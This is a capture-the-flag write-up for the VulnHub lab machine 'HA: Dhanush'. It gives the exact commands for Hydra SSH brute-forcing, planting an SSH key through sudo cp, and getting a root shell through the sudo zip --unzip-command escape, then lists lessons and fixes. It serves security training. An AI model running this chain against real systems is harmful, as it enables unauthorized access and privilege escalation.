




# HA: Dhanush — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | Read /root/flag.txt |
| **Source** | [HackingArticles](https://www.hackingarticles.in/ha-dhanush-vulnhub-walkthrough/) |

## Attack Summary

CeWL-generated wordlist brute-forced SSH credentials on a non-standard port, sudo `cp` allowed placing an SSH key into a second user's `authorized_keys`, and sudo `zip` with `--unzip-command` yielded a root shell.

## Methodology

1. Recon — nmap full-port scan; find SSH on port 65345 and HTTP on port 80
2. Enumeration — CeWL wordlist from the web application
3. Exploitation — Hydra SSH brute-force recovers `pinak:Gandiv`
4. Privilege Escalation — sudo `cp` for lateral move to `sarang`, then sudo `zip` for root

## Step 1: Reconnaissance

```bash
nmap -sV -sC -p- 192.168.1.101
```

Key open ports:

| Port | Service |
|---|---|
| 80/tcp | HTTP |
| 65345/tcp | SSH (OpenSSH on non-standard port) |

The web application source and images reveal no obvious entry points. The non-standard SSH port is a key observation.



## Step 2: Enumeration — CeWL Wordlist

Generate a custom wordlist from the site content:

```bash
cewl http://192.168.1.101/ -w dict.txt
cat dict.txt | wc -l
```

This produces a targeted wordlist of words extracted from the application, useful for both username and password attempts.



## Step 3: Exploitation — SSH Brute-Force

Use Hydra against SSH on port 65345, trying the generated wordlist for both usernames and passwords:

```bash
hydra -L dict.txt -P dict.txt ssh://192.168.1.101 -s 65345 -t 4 -V
```

Recovered credentials: `pinak:Gandiv`.

Login via SSH:

```bash
ssh pinak@192.168.1.101 -p 65345
```

Check sudo privileges:

```bash
sudo -l
# User pinak may run the following commands:
#   (sarang) NOPASSWD: /bin/cp
```

`pinak` can run `cp` as user `sarang` without a password.



## Step 4: Lateral Movement — sudo cp to inject SSH key

The `sarang` user's `.ssh` directory is not directly readable. Generate an SSH key pair:

```bash
ssh-keygen -t rsa -f /tmp/mykey -N ""
cat /tmp/mykey.pub
```

Copy the public key to pinak's home directory, then use `sudo cp` to place it into sarang's `authorized_keys`:

```bash
cp /tmp/mykey.pub /home/pinak/authorized_keys
sudo -u sarang /bin/cp /home/pinak/authorized_keys /home/sarang/.ssh/authorized_keys
```

Login as `sarang` using the private key:

```bash
ssh -i /tmp/mykey sarang@192.168.1.101 -p 65345
```

Check sudo privileges as sarang:

```bash
sudo -l
# User sarang may run the following commands:
#   (root) NOPASSWD: /usr/bin/zip
```

`sarang` can run `zip` as root without a password.


## Step 5: Privilege Escalation — sudo zip shell escape

Use the `zip` GTFOBin technique with `--unzip-command` to spawn a root shell:

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T --unzip-command="sh -c /bin/bash"
```

Confirm root access:

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/flag.txt
```

## Step 6: Root Flag

```bash
cat /root/flag.txt
```



## Lessons Learned

1. Non-standard SSH ports do not provide meaningful security if they are discoverable via a full-port nmap scan.
2. CeWL-generated wordlists are highly effective when developers reuse words from their own applications as passwords.
3. `sudo` rights to file-copy commands (`cp`) are as dangerous as write access to the target path: they allow injecting authorized SSH keys or overwriting `/etc/passwd`.
4. `zip` in the GTFOBins list can execute arbitrary commands via `--unzip-command`, making any sudo grant to it equivalent to root.

## Remediation

| Vulnerability | Recommended Fix |
|---|---|
| Site-content-derived password | Enforce strong random passwords; ban dictionary and CeWL-guessable words |
| SSH on non-standard port | Port security-by-obscurity is ineffective; use key-based auth and fail2ban instead |
| sudo cp as another user | Remove or scope file-copy sudo rules; use dedicated provisioning tools |
| sudo zip as root | Remove sudo grant for zip; review all GTFOBins entries in sudoers |
